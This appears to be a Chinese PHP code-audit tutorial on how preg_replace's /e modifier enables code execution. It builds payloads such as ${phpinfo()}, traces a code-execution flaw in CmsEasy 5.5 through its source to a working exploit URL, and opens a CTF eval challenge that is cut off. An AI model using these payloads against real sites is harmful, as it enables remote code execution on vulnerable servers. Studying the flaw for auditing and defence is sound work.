






函数学习
preg_replace
功能 ： 函数执行一个正则表达式的搜索和替换
定义 ： mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
搜索 subject 中匹配 pattern 的部分， 如果匹配成功以 replacement 进行替换。
Demo学习 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php header("Content-Type: text/plain" ); function complexStrtolower ($regex , $value return preg_replace( '/(' . $regex . ')/ei' , 'strtolower("\\1")' , $value ); } foreach ($_GET as $regex => $value ) { echo complexStrtolower($regex , $value ) . "\n" ; } ?>
在第7行中，preg_replace()函数存在/e模式，导致可能存在代码执行漏洞。第13行中，将GET请求得到的参数传入complexStrtolower()函数中，函数中的$regex和value参数可控所以preg_replace()函数第1个和第三个参数可控，而代码执行的位置在第二个参数即第8行处strtolower("\\1")。这里的\\1涉及到正则表达式反向引用知识。
反向引用
对一个正则表达式模式或部分模式 两边添加圆括号 将导致相关 匹配存储到一个临时缓冲区 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 ‘\n’ 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。
0x01 \\1也就是\1，输出和执行第一个子表达式内容。也就是说，通过控制$regex参数的值为正则表达式，然后匹配$value中的内容再交给第二个参数执行，开始尝试构造Payload。
1 2 3 <?php preg_replace('/(.*)/ei','strtolower("\\1")','phpinfo()'); ?>

这里没有按照预期一样输出phpinfo页面，输出子表达式查看执行结果phpinfo()。这是因为PHP可变变量 的原因，在双引号包裹的字符串可以解析变量，而单引号不行。在${phpinfo()}中的phpinfo()会被当作变量先执行，执行成功后为bool(true)，即${1}。
1 2 3 4 5 6 7 8 var_dump(phpinfo()); // bool(true) var_dump(strtolower(phpinfo())); // string(1) "1" var_dump(preg_replace('/(.*)/ei','1','phpinfo()')); // string(2) "11" var_dump(preg_replace('/(.*)/ei','strtolower("\\1")','${phpinfo()}')); // string(0) "" var_dump(preg_replace('/(.*)/ei','${phpinfo()}','${phpinfo()}')); // string(0) "" var_dump(strtolower("${phpinfo()}")); // string(0) "" var_dump(strtolower("${1}")); // string(0) ""
所以这里要使用${phpinfo()}即可正确执行出phpinfo()页面。
1 2 3 <?php preg_replace('/(.*)/ei' ,'strtolower("\\1")' ,'${phpinfo()}' ); ?>

0x02 通常使用较多的全匹配正则表达式为.*，但是在当作参数名使用时，会被转成成_*

这是因为在PHP中，对于传入非法的GET数组参数名，会将其转换成下划线_，通过脚本跑一下特殊字符发现只有两个字符是输出_

所以这里可改用\S来匹配非空白字符串，所以完整Payload为
1 2 Payload: http://127.0.0.1/php/day8/demo.php?\S*=${phpinfo()}
案例分析 案例选取为 CmsEasy 5.5 ，该CMS存在代码执行漏洞。
漏洞入口文件为/lib/tool/form.php第95行处
1 2 3 4 5 6 7 8 9 10 11 function getform ($name ,$form ,$field ,$data if (get('table' ) &&isset (setting::$var [get('table' )][$name ])) $form [$name ]=setting::$var [get('table' )][$name ]; if (get('form' ) &&isset (setting::$v9ar [get('form' )][$name ])) $form [$name ]=setting::$var [get('form' )][$name ]; if (isset ($form [$name ]['default' ])) $form [$name ]['default' ]=preg_replace('/\{\?([^}]+)\}/e' ,"eval('return $1 ;')" ,$form [$name ]['default' ]); if (!isset ($data [$name ]) &&isset ($form [$name ]['default' ])) $data [$name ]=@$form [$name ]['default' ]; if (preg_match('/templat/' ,$name ) &&empty ($data [$name ])) $data [$name ]=@$form [$name ]['default' ];
在第7行使用了preg_replace()函数，并且使用了/e修正模式，如果$form[$name]['default']的值被正则所匹配，就会执行eval函数。全局搜索哪里调用该函数，找到在/cache/template/default/manage/#guestadd.php文件中第172~177行：
1 2 3 4 5 6 <div class="hid_box"> <strong><?php echo lang(addcategory);?></strong> <div class="hbox" style="background:none;"> <?php echo form::getform('catid',$form,$field,$data);?> </div> </div>
此处catid的值为$form[$name]中对应的值，继续搜索catid在哪里被定义引用。在/lib/table/archive.php文件第21~31行处：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 function get_form ( return array ( 'catid' =>array ( 'selecttype' =>'select' , 'select' =>form::arraytoselect(category::option(0 ,'tolast' )), 'default' =>get('catid' ), 'regex' =>'/\d+/' , 'filter' =>'is_numeric' , ), 'typeid' =>array ( 'selecttype' =>'select' , 'select' =>form::arraytoselect(type::option(0 ,'tolast' )), 'default' =>get('typeid' ), 'regex' =>'/\d+/' , 'filter' =>'is_numeric' , ), 'toppost' =>array ( 'selecttype' =>'select' , 'select' =>form::arraytoselect(array (0 =>'不置顶' ,2 =>'栏目置顶' ,3 =>'全站置顶' )), 'default' =>0 , 'regex' =>'/\d+/' , 'filter' =>'is_numeric' , ), ...
get_form()函数会返回一个数组，这个数组中包含了catid,typeid,toppost……等参数对应的内容，并且每个参数中还嵌套一个数据。这里查看catid参数中的对应的内容，在第6行中发现default字段，这里对应的是$form[$name][default]的值。
default指向get('catid')，其中的get()函数为程序内部封装的一个方法，文件位置在/lib/tool/front_class.php第2367~2375行处：
1 2 3 4 5 6 7 8 9 10 function get ($var if (front::get($var )) return front::get($var ); else if (front::post($var )) return front::post($var ); else if (config::get($var )) return config::get($var ); else if (session::get($var )) return session::get($var ); }
可以看到根据用户的请求方式，get()会调用front类对应的get方法或者post方法，在第493~504行处：
1 2 3 4 5 6 7 8 9 10 11 12 static function get ($var if (isset (self ::$get [$var ])) return self ::$get [$var ]; else return false ; } static function post ($var if (isset (self ::$post [$var ])) return self ::$post [$var ]; else return false ; }
继续跟进静态方法get和post，可以在front类中定义的静态属性
1 2 3 4 5 6 7 8 9 10 11 12 final class front ...... static $get ; static $post ; ...... function __construct ( ...... self ::$get =$_GET ; self ::$post =$_POST ; ...... } }
这里可知$from[$name]['default']中的default参数通过GET或者POST方法获取内容，内容控制。
整理一下思路，在get_form()函数中定义了$from[$name]['default']中$name的值为catid，这个值由get方法获取，被用户可控。catid对应的default字段也可通过get和post来获取，内容可控。现在寻找在哪里有调用get_form()函数，在/lib/default/manage_act.php文件第29行处：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 class manage_act extends act protected $_table ; function init ( $user ='' ; $guest = front::get('guest' ); if ($guest =='1' &&config::get('opguestadd' )) { $user = 'Guest' ; ...... if ($this ->table <>'archive' &&$this ->table <>'orders' ) exit ('PAGE NOT FOUND!' ); $this ->_table=new $this ->table; $this ->_table->getFields(); $this ->view->form=$this ->_table->get_form(); $this ->_pagesize=config::get('manage_pagesize' ); $this ->view->manage=$this ->table; $this ->view->primary_key=$this ->_table->primary_key; if (!front::get('page' )) front::$get ['page' ]=1 ; $manage ='table_' .$this ->table; $this ->manage=new $manage ; }
在第12行处调用，通过View模板渲染到前台显示。
案例复现
访问首页，点击游客投稿

参数名为catid，其要匹配的正则表达式为/\{\?([^}]+)\}/e，意思是匹配{?(任意内容)}，根据意思构造Payload：
1 2 3 4 Payload: http://127.0.0.1/CmsEasy/?case=manage&act=guestadd&manage=archive&guest=1 catid={?(phpinfo())}

案例学习 题目1 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 <?php include 'flag.php' ;if (isset ($_GET ['code' ])){ $code =$_GET ['code' ]; if (strlen($code )>40 ){ die ("Long." ); } if (preg_match("/[A-Za-z0-9]+/" ,$code )){ die ("NO." ); } @eval ($code ); } else { highlight_file(__FILE__ ); } highlight_file(__FILE); ?>
1 2 3 4 5 6 7 8 <?php $flag ="{this_is_flag}" ;function getFlag ( global $flag ; echo $flag ; } ?>
先简单分析一下index.php里的内容，第6行中判断传入的$code值长度是否超过40，超过则退出，然后在第9行正则匹配不能为字母和数字，最后在第12行处通过eval函数执行命令。
如果不考虑第9行中的正则表达式，那么读取flag的值。